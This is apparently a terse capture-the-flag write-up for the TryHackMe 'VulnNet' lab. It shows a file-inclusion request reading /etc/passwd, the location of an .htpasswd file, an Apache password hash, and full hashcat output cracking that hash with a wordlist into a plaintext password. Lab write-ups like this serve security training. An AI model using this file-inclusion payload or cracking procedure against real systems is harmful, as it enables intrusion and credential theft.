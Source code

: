 <code>

  ## VulnNet
  
LINK : https://tryhackme.com/room/vulnnet1


GET http://vulnnet.thm/index.php?referer=//etc/passwd HTTP/1.1

Looking at the above screenshot we see that the credential for the broadcast.vulnnet.thm is stored in

/etc/apache2/.htpasswd


 developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0

D:\__Instal\____tryhackme_tools\hashcat-6.2.6>hashcat.exe -m 1600 hash2.txt rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) UHD Graphics 630, 6432/12965 MB (2047 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1475 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
Time.Started.....: Mon Jun 02 12:51:22 2025 (9 mins, 44 secs)
Time.Estimated...: Mon Jun 02 13:01:06 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3749 H/s (17.72ms) @ Accel:4 Loops:3 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2187264/14344385 (15.25%)
Rejected.........: 0/2187264 (0.00%)
Restore.Point....: 2162688/14344385 (15.08%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:999-1000
Candidate.Engine.: Device Generator
Candidates.#1....: Angelica6 -> 8891137

Started: Mon Jun 02 12:51:02 2025
Stopped: Mon Jun 02 13:01:08 2025

## $apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls

</code>
